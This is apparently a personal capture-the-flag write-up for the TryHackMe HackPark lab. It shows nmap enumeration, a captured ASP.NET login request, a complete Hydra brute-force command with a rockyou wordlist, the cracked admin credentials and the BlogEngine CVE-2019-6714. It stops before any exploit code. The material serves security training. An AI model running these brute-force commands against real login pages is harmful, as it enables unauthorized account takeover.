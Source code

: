 [TryHackMe \| HackPark](https://tryhackme.com/room/hackpark)

---
# Enumeration
## Nmap
```
nmap -p- 10.10.158.222
```

## Port 80 - Webserver
![[Pasted image 20251018151941.png]]

# Whats the name of the clown displayed on the homepage?
The hint indicates that we have to conduct a reverse image search of the image, a quick google search will provide sites like: tinyeye, etc. Paste the image and sources of other matches will be there
![[Pasted image 20251018152626.png]]
The Clown itself is from the movie IT, with the name: Pennywise

# Using Hydra to brute-force a login
![[Pasted image 20251018152750.png]]
The login page can be found at the URL: [Title Unavailable \| Site Unreachable](http://10.10.205.233/Account/login.aspx?ReturnURL=/admin/)

We have seen that the user "Administrator" created the clown post, so we can assume that that is a user which we can use to log into the website
Lets give it a try with Hydra
## What request type is the Windows website login form using?
1. We can inspect the login page using the firefox inspect feature of if we used burpsuite to capture the packet
![[Pasted image 20251018153257.png]]
We can also go in the request of the packet to see the full payload that we can use for Hydra
![[Pasted image 20251018155434.png]]

```
__VIEWSTATE=YDG4yvPxsI%2FrkHv%2BytjYF3gyLeQKch33DAhPlARC03EXcitJ8FQqPBAOYWWH%2BTwUBvOe9la0g%2BlgWMl3uzRSUANGcJ%2BoG04yDaEwPXUtJ7VSLlzUecxApyFCH95f%2F3zuTuUC8u2wvQ4qR%2FxLEiE0WNQuDpvbplBGdRA1qkYfNUI4tdlAbgqeVS4mvR%2B55SVn9GxLm0AzyScOSgQiZfbGq4FRMr1cGaiV3ZrvuATvH97TPjuSBeDyVIo4YbW3XiAYd34iFnmSPivFC%2FIt%2FBBrN3SKaOSyWPVKbO%2FBxaVRzaChAdFVBhVdEX0dhHDyne7IEaCqOsWyPsnLSss5iQ5LOqjd%2FasZHdRbp56BT0y06Idq7gU4&__EVENTVALIDATION=C%2Ba9uGa5lKAY3aX0i53V929ygcyRI0wSsXwFeqqUquOzRI8B3qDGsxiF7N02GETZgpLOfIJHP2gB6J9BCwdQx%2BqNOyejkDcTfUPZhblhNxkgfn1lqyWkA9RNNshY2DkDpUMOCe52ql2bQ4s6fF9smHx4RSo1a%2F7L8Yw6VWl99JHdTkww&ctl00%24MainContent%24LoginUser%24UserName=admin&ctl00%24MainContent%24LoginUser%24Password=test&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in
```
## Cracking POST Request Login Page with Hydra (http-post-form)
```
hydra -l <user> -P <password.txt> <ip-target> http-post-form "header_file_name:request:error_notif"

# Command

hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.205.233 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V

```
## Complete Hydra Command 
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.205.233 http-post-form "/Account/login.aspx:__VIEWSTATE=GlE2yCmLJhjxMS3WAapWzHpHopOnSZe%2Bql42iFWRXoiZ5H%2B8ev8wIrptaXJve3Sbd6pT%2FrwUgyiQoljyTpvaSFmerFfikAhX%2B0x7wPKeGvX%2Bln5s3lF2MiRyzfhkETMzMVqmG9YOF%2BAbgUUrv5BaI3M%2BnQEoVdHs68l%2BWv%2Fl1Kju7ufm&__EVENTVALIDATION=fHY6mqK6KeT8pJYrkCm%2FDIV5hhJF6aZ7UbhYd3Y4cdb0CgsyhEzYd6Pa1y8%2F463qYWZXFr0uMjTAP81waQE2U5kWlkKKjrEi8KYqWJBk0C%2F0Wmoo%2B0GtbYNAYGwQh%2F5bdiyauLB7eVBmo%2F%2BGKpFUGFB5GFJyiAvLS78nzJwIsoRgpDZY&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed"
```

![[Pasted image 20251018160029.png]]

### Password
```
login: admin   password: 1qaz2wsx
```

# Access to the Website Admin
![[Pasted image 20251018161322.png]]

The version of BlogEngine after looking around is:  3.3.6.0 

Lets find an exploit for this, simply search on google and look for the most common website like rapid7 or exploitdb

The CVE is: ***CVE-2019-6714***

# Using the public exploit, gain initial access to the server.

Who is the webserver running as?

How TF are we gonna do this? lol i think we will need to use the exploit that we just found and try to use it in a way to exploit this vulnerable webserver, so lets try our best.

1. Download the Exploit

 
